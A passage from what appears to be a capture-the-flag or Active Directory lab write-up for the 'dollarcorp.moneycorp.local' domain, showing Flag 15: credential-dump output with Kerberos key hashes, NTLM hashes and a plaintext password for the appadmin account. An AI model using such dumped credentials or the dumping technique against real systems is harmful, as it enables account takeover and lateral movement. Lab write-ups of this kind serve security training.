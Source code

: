 ```powershell
           aes256_hmac       2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7
           aes128_hmac       86a353c1ea16a87c39e2996253211e41
           rc4_hmac_nt       cc098f204c5887eaa8253e7c2749156f
           rc4_hmac_old      cc098f204c5887eaa8253e7c2749156f
           rc4_md4           cc098f204c5887eaa8253e7c2749156f
           rc4_hmac_nt_exp   cc098f204c5887eaa8253e7c2749156f
           rc4_hmac_old_exp  cc098f204c5887eaa8253e7c2749156f
```

### Flag 15 \[dcorp-adminsrv] - NTLM hash of appadmin extracted from dcorp-adminsrv 🚩

Here below the appadmin's ntlm hash:

```powershell
Authentication Id : 0 ; 138848 (00000000:00021e60)
Session           : Service from 0
User Name         : appadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/10/2025 9:28:48 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1117

         * Username : appadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : *ActuallyTheWebServer1
         * Key List :
           aes256_hmac       68f08715061e4d0790e71b1245bf20b023d08822d2df85bff50a0e8136ffe4cb
           aes128_hmac       449e9900eb0d6ccee8dd9ef66965797e
           rc4_hmac_nt       d549831a955fee51a43c83efb3928fa7
           rc4_hmac_old      d549831a955fee51a43c83efb3928fa7
           rc4_md4           d549831a955fee51a43c83efb3928fa7
           rc4_hmac_nt_exp   d549831a955fee51a43c83efb3928fa7
           rc4_hmac_old_exp  d549831a955fee51a43c83efb3928fa7
           Authentication Id : 0 ; 22574 (00000000:0000582e)
```
